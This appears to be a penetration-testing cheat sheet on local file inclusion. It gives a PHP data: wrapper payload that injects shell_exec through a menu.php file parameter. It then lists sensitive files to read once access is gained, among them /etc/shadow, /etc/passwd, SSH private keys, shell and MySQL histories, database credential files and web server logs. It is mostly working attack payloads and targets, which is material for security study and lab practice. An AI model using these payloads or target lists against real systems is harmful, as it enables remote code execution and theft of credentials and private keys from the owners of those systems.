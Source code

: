 ### php wrapper

```
http://10.11.0.22/menu.php?file=data:text/plain,hello world
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### 敏感文件

```
# common
/etc/issue (A message or system identification to be printed before the login prompt.)
/etc/motd (Message of the day banner content. Can contain information about the system owners or use of the system.)
/etc/passwd 
/etc/group 
/etc/resolv.conf (might be better than /etc/passwd for triggering IDS sigs)
/etc/shadow
/home/[USERNAME]/.bash_history or .profile
~/.bash_history or .profile
$USER/.bash_history or .profile
/root/.bash_history or .profile

# redis, auth pwd and writable dir.
/etc/redis/redis.conf
/etc/systemd/system/redis.service

# webserver, apache2 web root
.htaccess
config.php
/etc/apache2/sites-enabled/000-default.conf

#ssh
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts

#logs
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/log/httpd/access_log
/var/log/httpd/error_log

/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
/var/log/nginx/access.log
/var/log/nginx/error.log

#user specific files
.bash_history
.mysql_history
.my.cnf

#proc file
/proc/sched_debug # Can be used to see what processes the machine is running
```